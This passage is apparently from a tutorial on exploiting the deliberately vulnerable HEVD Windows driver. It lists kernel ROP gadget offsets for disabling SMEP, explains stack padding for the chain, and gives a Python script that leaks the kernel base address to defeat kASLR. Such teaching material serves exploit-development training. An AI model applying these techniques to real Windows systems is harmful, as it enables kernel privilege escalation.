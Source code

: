 <div class="imgblock">

![CR4 ROP Offset](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-smep-bypass/offset1_ztkull.webp)

</div>

The offset is `0011f8de`. We’ll use that later.

Now we need to find a `pop eax # ret` gadget. We can find one at
`nt!_MapCMDevicePropertyToNtProperty+0x39`:

<div class="imgblock">

![POP EAX ROP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330912/blog/hevd-smep-bypass/popeax-rop_fuafnn.webp)

</div>

And the offset from the start of the `nt` module is `0002bbef`:

<div class="imgblock">

![POP EAX Offset](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330912/blog/hevd-smep-bypass/offset2_tzgwnp.webp)

</div>

We must remember to pad our `ROP` chain with 8 bytes because the
overflowed function epilog uses `ret 8` which will return to the value
pointed by `ESP` and then will pop 8 bytes from the stack:

<div class="imgblock">

![ROP Padding](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-smep-bypass/rop-padding_b9rtmd.webp)

</div>

With that, we can now disable `SMEP`\!

## Defeating kASLR

We’ve got all the required information to create the `ROP` chain to
disable `SMEP`. However, we need to deal with kernel `ASLR`. As I
mentioned before, there are several functions that can be executed in
user mode (`ring-3`) that can give information of addresses at `ring-0`.
The most used are `NtQuerySystemInformation()` and
`EnumDeviceDrivers()`. The later is the simpler. With the following
code, you can get the kernel base address:

``` python
import sys
from ctypes import windll, c_ulong, byref, sizeof

PSAPI = windll.psapi

def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]

BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')
```
